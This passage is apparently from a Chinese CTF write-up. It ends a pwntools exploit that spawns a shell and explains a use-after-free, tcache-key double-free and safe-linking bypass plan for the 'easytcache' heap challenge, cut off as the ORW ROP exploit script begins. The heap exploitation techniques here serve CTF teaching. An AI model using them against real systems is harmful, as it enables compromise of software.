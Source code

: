 ```
p.sendline(payload)
p.sendline(';sh')

p.interactive() 
```

# 0x02\. easytcache - Use After Free + safe-linking bypass + ORW （+ FSOP）

这道题校内没人出…只有一个校外的师傅做出来了，还非预期了…

BB：

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-Hz2IpHD9-1621009387347)(https://i.loli.net/2021/05/15/Oqpem3yrg2UJlYC.png)]

## 程序分析

使用如下指令编译，保护全开，扣光符号表

```
$ g++ easytcache.cpp -o easytcache -fstack-protector-all -z now -z noexecstack -pie -s 
```

在开头的`init_state()`函数中设置了沙箱，目的是让选手只能通过orw来获得flag

题目提供了分配、编辑、打印、释放堆块的功能，以及一个手动调用exit函数退出的功能

同时题目限制**只能分配5个chunk，只能释放3次**，超出这个限制便会抛出`A3LibException`中止程序

漏洞点在于释放堆块时没有将堆块指针置0，但是libc版本为2.31，有着tcache key，无法直接double free

题目本身有个逻辑漏洞，在 `deleteNote()` 函数中虽然会检测堆块是否已释放，但是会在检测之前使用取反的方式改变标志位，因此可以在改变标志位后使用 edit 功能清除 tcache key，之后完成doule free

## 解题思路

题目限制了只能分配5个 chunk，每一次分配都需要精打细算，为了能够达到更多次的任意地址写，所以考虑直接劫持 tcache 结构体

首先通过double free后打印泄漏出堆基址，之后就是 edit 后分配到 tcache 结构体，修改 counts 全满后**将 tcache free 进 unsorted bin 后**打印就可以泄漏出栈基址，**此时我们还剩下两次 malloc 的机会，0 次 free 的机会**，不过好在我们已经控制了 tcache 结构体，可以直接分配堆块到我们想要的地方
需要注意的是自 libc2.32 起新增了 safe-linking 机制（本题为 2.33），对于 tcache 与 fastbin 中的 chunk 的 next 指针都会与自身地址右移 12 位后的值进行异或，但是 tcache_entry 中存放的仍然为未加密指针

最常规的办法就是改 __malloc_hook 为 one_gadget 以get shell，但是这一题限制了系统调用，只能进行orw

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-fu8jXAVw-1621009387349)(https://i.loli.net/2021/04/22/EA873jmk2bIy4ca.png)]

### 解法一：__environ泄露栈地址在栈上构造ROP进行ORW

在 `__environ` 这个变量中保存着栈上地址，我们可以通过这个变量获取栈上地址，随后就可以分配一个位于栈上的 chunk ，最后就是常规的通过 ROP 进行 ORW

exp如下：

```
 from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'

p = process(['./ld-2.33.so', './easytcache'], env={'LD_PRELOAD':'./libc.so.6'})
e = ELF('./easytcache')
libc = ELF('./libc.so.6')
one_gadget = 0xe6e73

def cmd(choice:int):
    p.recvuntil(b"Your choice: ")
```
